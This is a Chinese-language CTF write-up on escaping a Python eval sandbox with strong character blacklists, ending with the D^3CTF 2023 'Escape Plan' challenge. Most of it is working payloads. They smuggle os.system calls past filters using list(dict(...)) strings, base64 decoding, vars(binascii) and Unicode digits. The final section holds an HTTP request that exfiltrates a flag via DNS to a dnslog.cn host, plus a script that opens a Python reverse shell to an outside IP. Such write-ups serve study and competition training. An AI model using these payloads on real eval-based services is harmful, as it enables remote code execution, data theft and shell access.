




# Reference

https://cn-sec.com/archives/1322842.html

# Game Start

```python
CMD = input()
if all(
        black_char not in CMD for black_char in (
                list("'\"., +") + ["__", "exec", "str", "import"]
        )
):
    eval(CMD)
```

过滤掉`"`、`'`引号，想到用`chr`和`+`来拼接字符串

但很不幸`+`被过滤了

`.`被过滤，不能直接调用对象方法，`.`的本质是`getattr(obj, property)`

但由于`,`逗号被过滤了，调用函数只能传一个参数，`getattr()`去获取对象的属性，或调用方法也不行了

试试这个`list(dict(whoami=1))[0]`，键名居然可以不加引号!

 但键名不能携带空格、引号、括号等，还是不好利用

## payload 1

内置函数`bytes()`



接受一个可迭代对象，里面是0-256的整数。返回一个bytes



但`range()`是固定顺序的，无法任意构造字符串

若能构造出 `[119, 104, 111, 97, 109, 105]` 这样的序列，通过 `bytes()` 得到 `whoami`

由于不能使用 `,`，所以不能直接写一个列表或者集合出来。

列表推导式 + if捞数据

```python
pay = bytes([
    j for i in range(6) for j in range(256)
    if i == 0 and j == 119 or i == 1 and j == 104
    or i == 2 and j == 111 or i == 3 and j == 97
    or i == 4 and j == 109 or i == 5 and j == 105
])
print(pay)   # b'whoami'
```

构造payload

```python
exp = '__import__("os").system("calc")'

print(f"eval(bytes([j for i in range({len(exp)}) for j in range(256) if " + " or ".join(
    [f"i=={i} and j=={ord(j)}" for i, j in enumerate(exp)]) + "]))")
```

```python
eval(bytes([j for i in range(31) for j in range(256) if i==0 and j==95 or i==1 and j==95 or i==2 and j==105 or i==3 and j==109 or i==4 and j==112 or i==5 and j==111 or i==6 and j==114 or i==7 and j==116 or i==8 and j==95 or i==9 and j==95 or i==10 and j==40 or i==11 and j==34 or i==12 and j==111 or i==13 and j==115 or i==14 and j==34 or i==15 and j==41 or i==16 and j==46 or i==17 and j==115 or i==18 and j==121 or i==19 and j==115 or i==20 and j==116 or i==21 and j==101 or i==22 and j==109 or i==23 and j==40 or i==24 and j==34 or i==25 and j==99 or i==26 and j==97 or i==27 and j==108 or i==28 and j==99 or i==29 and j==34 or i==30 and j==41]))
```

过滤空格可以使用`[]`

```python
exp = '__import__("os").system("calc")'

print(f"eval(bytes([[j][0]for(i)in[range({len(exp)})][0]for(j)in[range(256)][0]if[" + "]or[".join(
    [f"i]==[{i}]and[j]==[{ord(j)}" for i, j in enumerate(exp)]) + "]]))")
```

```python
eval(bytes([[j][0]for(i)in[range(31)][0]for(j)in[range(256)][0]if[i]==[0]and[j]==[95]or[i]==[1]and[j]==[95]or[i]==[2]and[j]==[105]or[i]==[3]and[j]==[109]or[i]==[4]and[j]==[112]or[i]==[5]and[j]==[111]or[i]==[6]and[j]==[114]or[i]==[7]and[j]==[116]or[i]==[8]and[j]==[95]or[i]==[9]and[j]==[95]or[i]==[10]and[j]==[40]or[i]==[11]and[j]==[34]or[i]==[12]and[j]==[111]or[i]==[13]and[j]==[115]or[i]==[14]and[j]==[34]or[i]==[15]and[j]==[41]or[i]==[16]and[j]==[46]or[i]==[17]and[j]==[115]or[i]==[18]and[j]==[121]or[i]==[19]and[j]==[115]or[i]==[20]and[j]==[116]or[i]==[21]and[j]==[101]or[i]==[22]and[j]==[109]or[i]==[23]and[j]==[40]or[i]==[24]and[j]==[34]or[i]==[25]and[j]==[99]or[i]==[26]and[j]==[97]or[i]==[27]and[j]==[108]or[i]==[28]and[j]==[99]or[i]==[29]and[j]==[34]or[i]==[30]and[j]==[41]]))
```

若`=`等号也被过滤了，可使用`in`

```python
exp = '__import__("os").system("calc")'

print(f"eval(bytes([[j][0]for(i)in[range({len(exp)})][0]for(j)in[range(256)][0]if[" + "]or[".join(
    [f"i]in[[{i}]]and[j]in[[{ord(j)}]" for i, j in enumerate(exp)]) + "]]))")
```

```python
eval(bytes([[j][0]for(i)in[range(31)][0]for(j)in[range(256)][0]if[i]in[[0]]and[j]in[[95]]or[i]in[[1]]and[j]in[[95]]or[i]in[[2]]and[j]in[[105]]or[i]in[[3]]and[j]in[[109]]or[i]in[[4]]and[j]in[[112]]or[i]in[[5]]and[j]in[[111]]or[i]in[[6]]and[j]in[[114]]or[i]in[[7]]and[j]in[[116]]or[i]in[[8]]and[j]in[[95]]or[i]in[[9]]and[j]in[[95]]or[i]in[[10]]and[j]in[[40]]or[i]in[[11]]and[j]in[[34]]or[i]in[[12]]and[j]in[[111]]or[i]in[[13]]and[j]in[[115]]or[i]in[[14]]and[j]in[[34]]or[i]in[[15]]and[j]in[[41]]or[i]in[[16]]and[j]in[[46]]or[i]in[[17]]and[j]in[[115]]or[i]in[[18]]and[j]in[[121]]or[i]in[[19]]and[j]in[[115]]or[i]in[[20]]and[j]in[[116]]or[i]in[[21]]and[j]in[[101]]or[i]in[[22]]and[j]in[[109]]or[i]in[[23]]and[j]in[[40]]or[i]in[[24]]and[j]in[[34]]or[i]in[[25]]and[j]in[[99]]or[i]in[[26]]and[j]in[[97]]or[i]in[[27]]and[j]in[[108]]or[i]in[[28]]and[j]in[[99]]or[i]in[[29]]and[j]in[[34]]or[i]in[[30]]and[j]in[[41]]]))
```

## payload 2

现在把上面的`if`给ban了，如何解决

我们知道，`import`可以认为是打开源码之后执行代码，也就是`exec(open(...).read())`

* 如何知道库的绝对路径
  * `__import__`返回的`module`经过`str`就会有绝对路径
* `.`点被干掉了如何读文件
  * `open`的返回值是`_io.TextIOWrapper`，存在 `__iter__` 方法，可以把它当做是一个可迭代对象来迭代
  * `list(open(str(__import__("os"))[19:-2]))` 等价  `open(...).readlines()`

* 如何把一行一行的代码转化为一个字符串
  * 列表推导式将每行字符串拆成一个个字符，再转ascii

```python
exec(bytes([ord(j)for(i)in(list(open(str(__import__(list(dict(os=1))[0]))[19:-2])))for(j)in(i)]))
popen("calc")
```

上面载入函数和执行函数是分开，如何合并到一起呢？

* `[exec(...)][0][system("whoami")]`  （会报错None Type not subscriptable）
* `if(exec(...)==None):system("calc")`  （当然if被ban了，那就换成for）
* `for(i)in[exec(...)]:system("calc")`
* `[str][bool(exec...)](list(popen("whoami"))[0])`

第三个有点抽象了

```python
exec(....)    # 返回None
print(bool(None))  # None转bool为False
print([2, 3, 4][False])  # False作索引转0
```

获取到str，将命令执行结果转字符串

```python
a=[str][bool(exec(
    bytes([
        ord(j)
        for(i)in(
            list(
                open(
                    str(
                        __import__(
                            list(dict(os=1))[0]
                        )
                    )[19:-2]
                )
            )
        )
        for(j)in(i)
    ])
))](list(popen(list(dict(whoami=1))[0]))[0])
print(a)
```

上面的命令由于是`list + dict`搞出来的字符串，还是无法构造特殊字符，只能执行`whoami`这种单一命令，无法反弹shell

```python
[eval][
    bool(
        exec(
            bytes([
                ord(j)
                for(i)in(
                    list(
                        open(
                            str(__import__(list(dict(base64=1))[0]))[23:-2]
                        )
                    )
                )[:-5]
                for(j)in(i)
            ])
        )
    )
](
    b64decode(
        list(
            dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignY2FsYycpLnJlYWQoKSAg=1)
        )[0]
    )
)
```

base64编码的内容为`__import__('os').popen('calc').read()  `末尾还有两个空格，否则base64编码后会有等号

这个payload刚好不会生成`=`、`/`、`+`这几个特殊的base64字符

要是过滤`__import__`、`ord`、`str`、`exec`之类的，还可以变化为如下，就是有点费eval

`list + dict`跳步获取子字符串

```python
print(eval("exec"))  # <built-in function exec>
```

```python
[eval][eval(list(dict(b_o_o_l=1))[0][::2])(eval(list(dict(e_x_e_c=1))[0][::2])(eval(list(dict(b_y_t_e_s=1))[0][::2])([eval(list(dict(o_r_d=1))[0][::2])(j)for(i)in(list(eval(list(dict(o_p_e_n=1))[0][::2])(eval(list(dict(s_t_r=1))[0][::2])(eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2])(list(dict(b_a_s_e_6_4=1))[0][::2]))[23:-2])))[:-5]for(j)in(i)])))](eval(list(dict(b_6_4_d_e_c_o_d_e=1))[0][::2])(list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignY2FsYycpLnJlYWQoKSAg=1))[0]))
```

接下来讨论=`、`/`、`+`这几个特殊的base64字符

base64编码以6位二进制为一组进行编码，当遇到`111111`6个1才会编码成`/`斜杠



一个字符8位，三个字符为一组循环

若要出现`/`斜杠

* `1111 11xx`
* `1111 xxxx`且上个字符恰巧`11`结尾
* `11xx xxxx`（至少192）且上个字符`1111`结尾
* `xx11 1111`

```python
for i in range(0b11000000, 0b11111111):
    print(chr(i), end='、')
À、Á、Â、Ã、Ä、Å、Æ、Ç、È、É、Ê、Ë、Ì、Í、Î、Ï、Ð、Ñ、Ò、Ó、Ô、Õ、Ö、×、Ø、Ù、Ú、Û、Ü、Ý、Þ、ß、à、á、â、ã、ä、å、æ、ç、è、é、ê、ë、ì、í、î、ï、ð、ñ、ò、ó、ô、õ、ö、÷、ø、ù、ú、û、ü、ý、þ、
```

我们构造的payload显然不会用到扩展ASCII码128～255

所以只有最后一种情况：位置为3倍数的字符为`xx11 1111`，32~126的ascii就只有`?`满足

同理，编码后出现 `+` 可能的字符有 `>`、`~`

显然我们的payload不会出现`?、>、~`，所以不用考虑`/`影响了

若出现咋办？加些无关紧要的字符

出现`=`是因为字符串不是3的倍数，`=`用来填充

## payload 3

由于`exec`生成的变量无法在函数上下文中使用，上面的payload当触发点在函数内部时会报错

`NameError: name '_bytes_from_decode_data' is not defined`

```python
CMD = '...'

def vul():
    eval(CMD)


vul()
```

`vars()`当没指定参数的时候和`locals`一样，返回局部变量

当指定参数的时候，会获取参数所在命名空间的`locals()`

可以先`import binascii` ，再利用 `vars(binascii)` 取出里面的 `a2b_base64` 从而进行 base64 解码

```python
eval(vars(eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2])(list(dict(b_i_n_a_s_c_i_i_=1))[0][::2]))[list(dict(a_2_b1_1b_a_s_e_6_4=1))[0][::2]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignY2FsYycpLnJlYWQoKSAg=1))[0]))
```

## payload 4

如果把数字也ban了呢

切片里的数字好处理

- `0` -> `len([])`
- `2` -> `len(list(dict(aa=()))[len([])])`

参数里的数字用unicode绕过

可用数字列表👉https://www.fileformat.info/info/unicode/category/Nd/list.htm

```python
vars(eval(list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])])(list(dict(b_i_n_a_s_c_i_i_=()))[len([])][::len(list(dict(aa=()))[len([])])]))[list(dict(a_𝟤_b𝟣_𝟣b_a_s_e_𝟨_𝟦=()))[len([])][::len(list(dict(aa=()))[len([])])]](list(dict(X𝟣𝟫pbXBvcnRfXygnb𝟥MnKS𝟧wb𝟥BlbignZWNobyBIYWNrZWQ𝟨IGBpZGAnKS𝟧yZWFkKCkg=()))[len([])])
```

```python
u = '𝟢𝟣𝟤𝟥𝟦𝟧𝟨𝟩𝟪𝟫'

CMD = "eval(vars(eval(list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])])(list(dict(b_i_n_a_s_c_i_i_=()))[len([])][::len(list(dict(aa=()))[len([])])]))[list(dict(a_2_b1_1b_a_s_e_6_4=()))[len([])][::len(list(dict(aa=()))[len([])])]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=()))[len([])]))"

CMD = CMD.translate({ord(str(i)): u[i] for i in range(10)})
```

# D^3CTF 2023 Escape Plan

```python
import base64

from flask import Flask, request

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def challenge_3():
    cmd = request.form.get("cmd", "")
    if not cmd:
        return """<pre>
import requests, base64
exp = ''
requests.post("", data={"cmd": base64.b64encode(exp.encode())}).text
</pre>
"""

    try:
        cmd = base64.b64decode(cmd).decode()
    except Exception:
        return "bad base64"

    black_char = [
        "'", '"', '.', ',', ' ', '+',
        '__', 'exec', 'eval', 'str', 'import',
        'except', 'if', 'for', 'while', 'pass',
        'with', 'assert', 'break', 'class', 'raise',
        '0', '1', '2', '3', '4', '5', '6', '7', '8', '9',
    ]
    for char in black_char:
        if char in cmd:
            return f'failed: `{char}`'

    msg = "success"
    try:
        eval(cmd)
    except Exception:
        msg = "error"

    return msg
```

## payload 1

```
POST /? HTTP/1.1
Host: 127.0.0.1:5000
Content-Type: application/x-www-form-urlencoded
Tao: request.form['a']
Content-Length: 235

cmd=4bWJdmFsKOG1iXZhbCjhtYl2YWwodmFycyhyZXF1ZXN0KVtsaXN0KGRpY3QoaGVhZGVycz1UcnVlKSlbRmFsc2VdXVtsaXN0KGRpY3QoVGFvPVRydWUpKVtGYWxzZV1dKSkp&a=__import__('so'[::-1]).system("ping+`cd+/;./readflag|base64|cut%20-b%2061-68`.lgw597.dnslog.cn")
```

分割flag多次外带

CMD为

```python
ᵉval(ᵉval(ᵉval(vars(request)[list(dict(headers=True))[False]][list(dict(Tao=True))[False]])))

__import__('so'[::-1]).system("ping+`cd+/;./readflag|base64|cut -b 61-68`.lgw597.dnslog.cn")
```

## payload 2

```python
import requests, base64

u = '𝟢𝟣𝟤𝟥𝟦𝟧𝟨𝟩𝟪𝟫'
exp = b"globals()['request'].form['a']"
print(base64.b64encode(exp).decode())
CMD = f"eval(eval(vars(eval(list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])])(list(dict(b_i_n_a_s_c_i_i_=()))[len([])][::len(list(dict(aa=()))[len([])])]))[list(dict(a_2_b1_1b_a_s_e_6_4=()))[len([])][::len(list(dict(aa=()))[len([])])]](list(dict({base64.b64encode(exp).decode()}=()))[len([])])))"
CMD = CMD.translate({ord(str(i)): u[i] for i in range(10)})
CMD = CMD.replace("e", "ᵉ")
res = requests.post("http://139.196.153.118:30402/",
                    data={
                        "cmd": base64.b64encode(CMD.encode()),
                        "a": 'exec(\'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.113.198.5",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\')'
                    }).text
print(res)
```


